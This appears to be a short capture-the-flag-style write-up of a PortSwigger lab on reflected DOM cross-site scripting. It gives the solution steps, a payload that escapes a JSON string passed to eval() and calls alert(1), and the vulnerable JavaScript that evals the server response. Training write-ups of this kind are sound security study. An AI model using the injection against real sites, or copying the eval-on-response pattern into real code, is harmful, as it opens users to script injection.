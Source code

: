 # Portswigger - Lab: Reflected DOM XSS

## Description 
This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

To solve this lab, create an injection that calls the alert() function.

## Solution
* send random string to search box
* check the js script that process data
* using vuln eval then
* payload inject
```javascript
\"-alert(1)}//
```
## vulnerable code
```javascript
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    .
    .    
```